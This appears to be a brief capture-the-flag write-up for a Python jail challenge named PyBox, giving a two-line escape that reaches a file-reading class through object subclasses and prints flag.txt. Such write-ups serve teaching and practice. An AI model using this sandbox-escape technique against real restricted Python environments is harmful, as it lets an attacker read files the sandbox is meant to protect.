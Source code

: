 ### 0x00 Challenge: PyBox
**Description:**
>Can you escape from this Python jail and get the flag?
>
>nc 168.119.247.237 5015

### 0x01 Write-up:
This challenge was a Python jail that you need to escape.

**The way that can you solve it:**
```
f = [].__class__.__base__.__subclasses__()[40]
print(f('./flag.txt').read())
```

